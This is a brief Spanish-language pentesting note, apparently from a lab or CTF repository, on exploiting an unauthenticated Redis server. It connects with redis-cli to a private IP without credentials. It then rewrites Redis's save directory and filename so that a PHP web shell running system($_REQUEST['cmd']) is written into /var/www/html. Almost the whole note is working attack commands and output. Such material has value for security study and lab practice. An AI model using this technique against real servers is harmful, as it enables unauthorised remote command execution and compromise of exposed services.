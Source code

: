 Existen varias formas de explotar este servicio.

## Conectar sin autenticación
```bash
 redis-cli -h 10.85.0.52
10.85.0.52:6379>
```
## Subir un fichero
Podemos subir un fichero que pueda ejecutar comandos a una ruta.
```bash
```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /var/www/html
OK
10.85.0.52:6379> config set dbfilename prueba.php
OK
10.85.0.52:6379> set test "<?php system($_REQUEST['cmd']); ?>"
OK
10.85.0.52:6379> save
OK
